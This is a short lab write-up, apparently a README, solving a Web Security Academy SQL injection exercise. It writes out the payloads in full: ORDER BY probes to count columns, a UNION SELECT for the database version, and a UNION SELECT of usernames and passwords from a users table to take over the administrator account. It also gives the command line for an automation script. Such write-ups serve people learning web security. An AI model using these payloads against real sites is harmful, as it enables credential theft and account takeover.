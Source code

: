 # SQL Injection Lab 09 - SQL injection UNION attack, retrieving data from other tables

## Manual Solution

### 1. Access the lab in Web Security Academy
### 2. Determine the number of columns for UNION attack
   - Test: `/filter?category=Gifts' ORDER BY 1--`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3--`
   - Result: Error (confirms 2 columns)

### 3. Determine the version of the database:
   - Test: `/filter?category=Gifts' UNION SELECT '1',version()--`
   - Result: So the version of the database is PostgreSQL 12.20

### 4. Username and password of the administrator:
   - Test: `/filter?category=Gifts' UNION SELECT username,password FROM users--`
   - Result: You'll see the username and password of the administrator.

5. Login to the administrator account

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python sqli_lab_09.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

